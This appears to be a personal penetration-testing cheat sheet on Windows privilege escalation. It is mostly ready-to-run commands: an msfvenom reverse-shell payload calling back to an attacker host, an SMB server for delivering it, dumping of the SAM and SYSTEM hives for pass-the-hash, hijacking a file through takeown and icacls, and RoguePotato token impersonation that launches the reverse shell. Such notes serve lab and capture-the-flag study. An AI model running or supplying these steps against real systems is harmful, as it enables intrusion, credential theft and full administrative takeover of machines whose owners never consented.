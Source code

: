 ### Sysinternals is your friend
[[Sysinternals-Hub]] or [Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)

###  msfvenom shells 

Extension for AlwaysInstallElevated == msi
Extension for Dynamic-Linked-Libraries == dll //not done a reverse shell from a dll but maybe possible..

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKBOX LPORT=$PORT -f exe -o reverse.exe
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py $hostdirectory
copy \\$ATTACKBOX\$hostdirectory\reverse.exe C:\Path\reverse.exe
```

Drop NC for one liner webserver

```
while(1) { cat index.html | nc -w1 -l -p 8080 }         
```

# Escalation Vectors

## Whoami /priv & SePrivileges
[Whoami Priv2Admin Definitive List](https://github.com/gtworek/Priv2Admin)
[Whoami /priv SeImpersonate Privileges](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

From the `whoami /priv` privileges can be displayed.

- **SeBackUp / SeRestore**
SeBackup and SeRestore privileges allow users to read and write to any file in the system, bypass DACL. PrivEsc be backuping SAM and SYSTEM hives
```batch
reg save hklm\system C:\path\to\exfil\out\from
reg save hklm\sam C:\path\to\exfil\out\from
```
Use [[Impacket-Cheatsheet]], smbshare  to `copy` or `xcopy`  or `move` the hives your smb share. Then perform a [[Pass-The-Hash]] with Adminstrators hash.

- **SeTakeOwnership**
SeTakeOwnship allows file ownership transference to then `icacls` to grant full permissions over that file, replace with cmd.exe to PrivEsc:
```batch
takeown /f C:\path\to\an.exe
icalcs C:\path\to\an.exe /grant <CurrentUser>:f
copy C:\path\to\cmd.exe C:\path\to\an.exe
```
- **SeImpersonate / SeAssignPrimaryToken**
SeImpersonate and SeAssignPrimaryToken abuse consists of ability to spawn a process or thread under a different user's security context. 

#### Rogue Potato - Token Impersonation
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
C:\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe # triggered on ADMIN use
C:\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999 # in local service reverse shell run exploit
``` 
